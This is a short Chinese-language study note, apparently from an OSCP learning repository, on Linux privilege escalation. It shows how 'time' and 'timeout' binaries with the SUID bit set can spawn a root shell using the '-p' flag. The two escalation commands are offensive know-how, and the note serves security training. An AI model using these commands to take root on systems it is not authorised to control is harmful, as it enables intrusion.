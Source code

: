 # time/timeout

`time/timeout` 若具有 `s` 权限，可使用如下命令直接提权至 root 权限：

```
time /bin/sh -p

timeout 7d /bin/sh -p
```
![time](https://github.com/Nongcloud/oscp-Learn/tree/master/Privilege-Escalation/SUID/images/suid-time.png)
